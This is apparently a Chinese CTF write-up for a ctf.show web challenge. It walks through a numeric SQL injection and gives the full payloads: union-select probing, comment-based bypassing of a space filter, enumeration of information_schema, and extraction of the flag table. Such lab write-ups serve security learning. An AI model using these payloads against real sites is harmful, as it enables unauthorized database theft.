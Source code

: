 # 网址
[案例](https://ctf.show/challenges#web7-12)
# 学习参考
[学习](https://blog.csdn.net/wangyuxiang946/article/details/119850344)

# 发现
- https://491cccf7-09e2-43d1-b768-e3b6852be6e7.challenge.ctf.show/index.php?id=1
- 有id=1
因此，可能是sql注入
# 首先判断注入点-1/**/union/**/select/**/1,2,3
- /\**/and/**/1
1. /**/ 是SQL中的多行注释符号，在许多数据库中（如MySQL）会被忽略
2. and 是SQL逻辑运算符
3. 1 是布尔真值
结果如下
![](asset/image.png)
发现显示了数据
由此可以判断页面存在SQL注入,注入点为数值型注入,页面中有显示位,可以尝试联合注入进行脱库
# 判断显示位与联合查询
此处id传一个-1,由于id通常不为负数,后端根据id查询不到内容,就只能展示联合查询的结果,从而帮助我们判断字段显示的位置
- -1/\**/union/**/select/\*\*/1,2,3
结果如下
![](asset/image1.png)
发现2是文章标题，3是文章内容
# 获取数据库
- -1/\**/union/\*\*/select/**/1,database(),3
结果如下
![](asset/image2.png)
发现是web7数据库
# 当前数据库中的所有表
```sql
-1/**/union/**/select/**/
1,(select/**/group_concat(table_name)from/**/information_schema.tables/**/where/**/table_schema="web7")
,3
```
结果如下
![](asset/image3.png)
发现有三张表flag、page、user
结果肯定就在flag中
# 获取flag表中的所有字段
```sql
-1/**/union/**/select/**/1,
(select/**/group_concat(column_name)from/**/information_schema.columns/**/where/**/table_schema="web7"/**/and/**/table_name="flag")
,3
```
结果如下
![](asset/image4.png)
发现只有flag字段
# 获取flag
```sql
-1/**/union/**/select/**/1,(select/**/flag/**/from/**/flag),3
```
# 结果
![](asset/image6.png)